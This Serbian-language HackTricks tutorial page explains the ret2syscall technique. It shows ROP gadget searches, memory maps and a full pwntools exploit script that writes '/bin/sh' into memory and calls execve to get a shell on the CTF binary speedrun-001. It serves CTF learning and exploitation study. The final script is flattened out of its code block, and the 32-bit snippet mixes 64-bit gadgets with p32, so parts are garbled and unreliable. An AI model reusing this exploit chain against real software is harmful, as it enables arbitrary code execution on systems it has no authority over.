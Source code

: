 # Ret2syscall

## Ret2syscall

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodičnu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### Osnovne informacije

Ovo je slično kao Ret2lib, međutim, u ovom slučaju nećemo pozivati funkciju iz biblioteke. U ovom slučaju, sve će biti pripremljeno da pozove syscall `sys_execve` sa nekim argumentima kako bi izvršio `/bin/sh`.

Da bismo pripremili poziv za **syscall**, potrebna je sledeća konfiguracija:

* `rax: 59 Specificira sys_execve`
* `rdi: ptr to "/bin/sh" specificira fajl koji će se izvršiti`
* `rsi: 0 specificira da nema prosleđenih argumenata`
* `rdx: 0 specificira da nema prosleđenih promenljivih okruženja`

Dakle, osnovno je potrebno napisati string `/bin/sh` negde i zatim izvršiti `syscall` (imajući na umu potrebno poravnanje za kontrolu steka). Za ovo, potreban nam je uređaj za pisanje `/bin/sh` na poznatom mestu.

{% hint style="success" %}
Još jedan interesantan syscall za pozivanje je **`mprotect`** koji bi omogućio napadaču da **modifikuje dozvole stranice u memoriji**.
{% endhint %}

### Gadgeti za Registre

Hajde da počnemo sa pronalaženjem **kako kontrolisati te registre**:

```c
ROPgadget --binary speedrun-001 | grep -E "pop (rdi|rsi|rdx\rax) ; ret"
0x0000000000415664 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
0x00000000004101f3 : pop rsi ; ret
0x00000000004498b5 : pop rdx ; ret
```

Sa ovim adresama je moguće **upisati sadržaj na stek i učitati ga u registre**.

### Upisivanje stringa

#### Upisivačka memorija

Prvo morate pronaći upisivo mesto u memoriji

```bash
gef> vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/kali/git/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/kali/git/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006bc000 0x00000000006e0000 0x0000000000000000 rw- [heap]
```

#### Upisivanje stringa u memoriju

Zatim morate pronaći način da upišete proizvoljni sadržaj na ovu adresu

```python
ROPgadget --binary speedrun-001 | grep " : mov qword ptr \["
mov qword ptr [rax], rdx ; ret #Write in the rax address the content of rdx
```

**32 bita**

```python
'''
Lets write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''

rop += popRdx           # place value into EAX
rop += "/bin"           # 4 bytes at a time
rop += popRax           # place value into edx
rop += p32(0x6b6000)    # Writable memory
rop += writeGadget   #Address to: mov qword ptr [rax], rdx

rop += popRdx
rop += "//sh"
rop += popRax
rop += p32(0x6b6000 + 4)
rop += writeGadget
```

**64 bita**

```python
'''
Lets write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = ''
rop += popRdx
rop += "/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000) # Writable memory
rop += writeGadget #Address to: mov qword ptr [rax], rdx
```

### Nedostajući uređaji

Ako vam nedostaju **uređaji**, na primer za pisanje `/bin/sh` u memoriji, možete koristiti **SROP tehniku za kontrolu svih vrednosti registara** (uključujući RIP i parametre registara) sa steka:

{% content-ref url="srop-sigreturn-oriented-programming.md" %}
[srop-sigreturn-oriented-programming.md](srop-sigreturn-oriented-programming.md)
{% endcontent-ref %}

\`\`\`python from pwn import \*

target = process('./speedrun-001') #gdb.attach(target, gdbscript = 'b \*0x400bad')

## Establish our ROP Gadgets

popRax = p64(0x415664) popRdi = p64(0x400686) popRsi = p64(0x4101f3) popRdx = p64(0x4498b5)

## 0x000000000048d251 : mov qword ptr \[rax], rdx ; ret

writeGadget = p64(0x48d251)

## Our syscall gadget

syscall = p64(0x40129c)

''' Here is the assembly equivalent for these blocks write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800 pop rax, 0x6b6000 mov qword ptr \[rax], rdx ''' rop = '' rop += popRdx rop += "/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end rop += popRax rop += p64(0x6b6000) rop += writeGadget

''' Prep the four registers with their arguments, and make the syscall

pop rax, 0x3b pop rdi, 0x6b6000 pop rsi, 0x0 pop rdx, 0x0

syscall '''

rop += popRax rop += p64(0x3b)

rop += popRdi rop += p64(0x6b6000)

rop += popRsi rop += p64(0) rop += popRdx rop += p64(0)

rop += syscall

## Add the padding to the saved return address

payload = "0"\*0x408 + rop

## Send the payload, drop to an interactive shell to use our new shell

target.sendline(payload)

target.interactive()

```
## Ostali Primeri & Reference

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals19\_speedrun1/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals19\_speedrun1/index.html)
* 64 bita, bez PIE-a, nx, upisati u neku memoriju ROP za poziv `execve` i skočiti tamo.
* [https://guyinatuxedo.github.io/07-bof\_static/bkp16\_simplecalc/index.html](https://guyinatuxedo.github.io/07-bof\_static/bkp16\_simplecalc/index.html)
* 64 bita, nx, bez PIE-a, upisati u neku memoriju ROP za poziv `execve` i skočiti tamo. Kako bi se napisala funkcija na steku koja vrši matematičke operacije.
* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 bita, bez PIE-a, nx, BF canary, upisati u neku memoriju ROP za poziv `execve` i skočiti tamo.
```
